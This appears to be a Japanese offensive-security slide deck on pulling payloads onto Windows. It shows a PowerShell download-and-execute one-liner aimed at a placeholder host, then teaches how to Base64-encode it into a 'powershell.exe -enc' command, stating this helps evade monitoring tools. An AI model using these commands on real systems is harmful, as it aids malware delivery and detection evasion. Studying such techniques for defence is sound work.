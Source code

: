 
---
### Pull - Windows
**DownloadString**
```ps1
PS C:\> (New-Object Net.WebClient).DownloadString('https://example.com/index.html') 
| Out-File hoge.txt; Invoke-Item hoge.txt
```

---

# 少し巧妙な方法①

- そのままでは監視ソリューションなどで検知される。
- 難読化を施すことで検知を避けられる可能性が上がる。

---
### Base64によるPowerShell難読化

以下2つはファイルを取ってきて実行する同じ内容。

```ps1
PS C:\> (New-Object Net.WebClient).DownloadString('https://example.com/index.html')
| Out-File hoge.txt; Invoke-Item hoge.txt
```
```ps1
PS C:\> powershell.exe -enc
KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAcwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBE
AG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwBlAHgAYQBtAHAAbABlAC4AYwBvAG0A
LwBpAG4AZABlAHgALgBoAHQAbQBsACcAKQAgAHwAIABPAHUAdAAtAEYAaQBsAGUAIABoAG8AZwBlAC4AdAB4AHQAOwAg
AEkAbgB2AG8AawBlAC0ASQB0AGUAbQAgAGgAbwBnAGUALgB0AHgAdAA=
```

---

### Base64によるPowerShell難読化（作成）
WindowsはUnicodeを標準としている。  
実行するコマンドの文字列をUnicodeのバイト列に変換し、そのあとでBase64エンコードする。

```ps1
PS C:\> $command = "(New-Object Net.WebClient).DownloadString('https://example.com/index.html')
| Out-File hoge.txt; Invoke-Item hoge.txt"

PS C:\> $unicodeBytes = [System.Text.Encoding]::Unicode.GetBytes($command)

PS C:\> [System.Convert]::ToBase64String($unicodeBytes)

KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAcwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBE
AG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwBlAHgAYQBtAHAAbABlAC4AYwBvAG0A
LwBpAG4AZABlAHgALgBoAHQAbQBsACcAKQAgAHwAIABPAHUAdAAtAEYAaQBsAGUAIABoAG8AZwBlAC4AdAB4AHQAOwAg
AEkAbgB2AG8AawBlAC0ASQB0AGUAbQAgAGgAbwBnAGUALgB0AHgAdAA=
```

---